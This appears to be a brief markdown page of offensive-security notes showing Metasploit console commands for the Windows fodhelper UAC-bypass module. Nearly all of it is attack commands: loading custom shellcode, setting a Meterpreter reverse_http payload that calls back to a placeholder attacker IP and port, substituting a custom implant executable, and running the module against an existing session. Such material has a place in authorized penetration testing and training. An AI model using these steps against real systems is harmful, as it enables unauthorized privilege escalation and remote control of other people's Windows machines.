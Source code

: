 # Metasploit

TODO: Fill this info

```
msf > use exploit/windows/local/bypassuac_fodhelper

msf exploit(windows/local/bypassuac_fodhelper) > set target 1
```

You can deploy your own custom implant especially when it's written in assembly from scratch. 

```
msf exploit(windows/local/bypassuac_fodhelper) > set payload generic/custom

msf exploit(windows/local/bypassuac_fodhelper) > options

msf exploit(windows/local/bypassuac_fodhelper) > advanced

msf exploit(windows/local/bypassuac_fodhelper) > set payloadfile /path/to/shellcode.bin

msf exploit(windows/local/bypassuac_fodhelper) > set arch x64

msf exploit(windows/local/bypassuac_fodhelper) > set platform windows
```

You can deploy a custom implant by specifying the `exe::custom` option.

```
msf exploit(windows/local/bypassuac_fodhelper) > set payload windows/x64/meterpreter/reverse_http

msf exploit(windows/local/bypassuac_fodhelper) > options

msf exploit(windows/local/bypassuac_fodhelper) > advanced

msf exploit(windows/local/bypassuac_fodhelper) > set lhost <attacker_IP>

msf exploit(windows/local/bypassuac_fodhelper) > set lport <attacker_PORT>

msf exploit(windows/local/bypassuac_fodhelper) > set exe::custom /path/to/implant.exe
```

Then pass on the `session` ID and execute the module.

```
msf exploit(windows/local/bypassuac_fodhelper) > session <session_ID>

msf exploit(windows/local/bypassuac_fodhelper) > run
```